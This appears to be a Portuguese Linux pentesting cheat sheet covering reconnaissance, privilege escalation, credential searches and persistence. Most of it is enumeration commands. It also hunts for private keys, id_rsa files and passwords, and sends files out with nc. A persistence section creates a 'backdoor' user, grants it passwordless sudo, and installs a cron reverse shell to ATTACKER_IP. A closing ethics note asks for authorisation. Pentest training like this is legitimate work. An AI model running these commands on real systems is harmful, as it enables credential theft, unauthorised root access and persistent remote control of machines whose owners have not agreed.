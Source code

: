 ## **COMANDOS DE RECONHECIMENTO DO SISTEMA**

```bash
# Informações do usuário
whoami                    # Usuário atual
id                        # Informações detalhadas do usuário e grupos
groups                    # Grupos do usuário atual
who                       # Usuários logados
w                         # Usuários logados e seus processos

# Informações do sistema
uname -a                  # Todas as informações do kernel
uname -r                  # Versão do kernel
cat /etc/issue            # Versão do SO
cat /etc/*-release        # Informações de release
hostname                  # Nome do host
arch                      # Arquitetura do processador

# Diretório atual
pwd                       # Diretório de trabalho atual
```

## **INFORMAÇÕES DE USUÁRIOS E GRUPOS**

```bash
cat /etc/passwd           # Lista todos os usuários
cat /etc/group            # Lista todos os grupos
getent passwd             # Entradas de usuários (inclui LDAP)
getent group              # Entradas de grupos
last                      # Histórico de logins
lastlog                   # Último login de cada usuário
```

## **PRIVILÉGIOS E PERMISSÕES**

```bash
# Sudo
sudo -l                   # Comandos que podem ser executados com sudo
sudo -ll                  # Lista detalhada (algumas versões)

# SUID/GUID
find / -perm -u=s -type f 2>/dev/null        # Binários SUID
find / -perm -g=s -type f 2>/dev/null        # Binários GUID
find / -perm -4000 -type f 2>/dev/null       # Binários SUID (alternativa)

# Permissões de arquivos sensíveis
ls -la /etc/passwd
ls -la /etc/shadow
ls -la /etc/sudoers
```

## **PROCESSOS E SERVIÇOS**

```bash
ps aux                    # Todos os processos
ps -ef                    # Processos formato extendido
ps aux | grep root        # Processos rodando como root
top                       # Processos em tempo real
htop                      # Top melhorado (se disponível)
pstree                    # Árvore de processos

# Serviços
systemctl status --all    # Status de todos os serviços (systemd)
service --status-all      # Status serviços (SysV)
chkconfig --list          # Serviços configurados (Red Hat)
```

## **REDE E CONEXÕES**

```bash
ifconfig                  # Interfaces de rede
ip addr                   # Informações IP (moderno)
netstat -tulpn            # Conexões e portas abertas
ss -tulpn                 # Alternativa moderna ao netstat
lsof -i                   # Processos usando rede
route -n                  # Tabela de roteamento
arp -a                    # Tabela ARP
```

## **INFORMAÇÕES DO SISTEMA**

```bash
# Hardware
lscpu                     # Informações da CPU
lsblk                     # Discos e partições
df -h                     # Espaço em disco
free -h                   # Memória RAM
lspci                     # Dispositivos PCI
lsusb                     # Dispositivos USB

# Variáveis de ambiente
env                       # Todas as variáveis
echo $PATH                # PATH do sistema
echo $HOME                # Diretório home
set                       # Variáveis shell
```

## **BUSCA DE ARQUIVOS SENSÍVEIS**

```bash
# Arquivos de configuração
find / -name "*.conf" -type f 2>/dev/null
find / -name "*.pem" -type f 2>/dev/null
find / -name "*.key" -type f 2>/dev/null
find / -name "id_rsa" -type f 2>/dev/null
find / -name "*.sql" -type f 2>/dev/null

# Arquivos com permissões específicas
find / -writable -type d 2>/dev/null         # Diretórios graváveis
find / -readable -type f 2>/dev/null         # Arquivos legíveis
find / -perm -o=w -type d 2>/dev/null        # Diretórios graváveis por outros
```

## **HISTÓRICO E LOGS**

```bash
history                    # Histórico de comandos
cat ~/.bash_history        # Histórico do bash
tail -f /var/log/auth.log  # Logs de autenticação (Debian/Ubuntu)
tail -f /var/log/secure    # Logs de autenticação (Red Hat)
dmesg                      # Mensagens do kernel
journalctl                 # Logs do systemd
```

## **CRON JOBS E AGENDAMENTOS**

```bash
crontab -l                 # Cron jobs do usuário atual
ls -la /etc/cron*          # Diretórios de cron
cat /etc/crontab           # Crontab do sistema
ls -la /etc/cron.d/*       # Jobs de cron adicionais
systemctl list-timers      # Timers do systemd
```

## **INFORMAÇÕES DE SEGURANÇA**

```bash
getenforce                 # Status SELinux (Red Hat)
sestatus                   # Status detalhado SELinux
apparmor_status            # Status AppArmor (Debian/Ubuntu)
iptables -L                # Regras iptables
ufw status                 # Status UFW
```

## **COMANDOS ÚTEIS PARA ESCALAÇÃO**

```bash
# Busca por credenciais
grep -r "password" /etc 2>/dev/null
grep -r "Password" /home 2>/dev/null
find / -name "*.bak" -type f 2>/dev/null

# Informações de containers/VMs
docker ps -a              # Containers Docker
ls -la /.dockerenv        # Verifica se está em container
systemd-detect-virt       # Detecta virtualização
```

## **FERRAMENTAS DE TRANSFERÊNCIA DE ARQUIVOS**

```bash
# Download
wget http://exemplo.com/arquivo
curl -O http://exemplo.com/arquivo

# Upload (dependendo do que estiver disponível)
scp arquivo user@host:/path/
nc -w 3 host port < arquivo
```

## **COMANDOS DE PERSISTÊNCIA (PARA FINS EDUCATIVOS)**

```bash
# Adicionar usuário
useradd -m -s /bin/bash backdoor
echo "backdoor:senha" | chpasswd

# Adicionar ao sudo
echo "backdoor ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

# Cron job persistente
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'" | crontab -
```

## Considerações Éticas

- Use apenas em sistemas que você possui ou tem autorização para testar
- Respeite os termos de serviço
- Obtenha autorização por escrito antes de realizar testes
- Use em ambientes controlados para aprendizado